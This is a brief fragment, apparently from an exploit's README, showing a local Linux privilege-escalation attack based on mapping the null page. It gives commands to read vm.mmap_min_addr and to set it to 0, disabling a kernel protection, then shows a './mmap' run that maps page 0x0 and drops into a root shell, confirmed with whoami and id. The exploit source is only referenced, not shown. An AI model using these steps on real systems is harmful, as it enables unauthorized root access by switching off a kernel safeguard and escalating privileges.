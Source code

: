 - Check the mmap_min_addr:
cat /proc/sys/vm/mmap_min_addr
zgrep MMAP_MIN /proc/config.gz
/sbin/sysctl vm.mmap_min_addr

- Changing the mmap_min_addr value:
/sbin/sysctl vm.mmap_min_addr=0
        
- Test the exploit:
$ ./mmap 
Page 0x0 mmaped:0xbfde0cd8[(nil)]
Send the command...
[+] enjoy the shell
sh-4.3# whoami
root
sh-4.3# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.3#
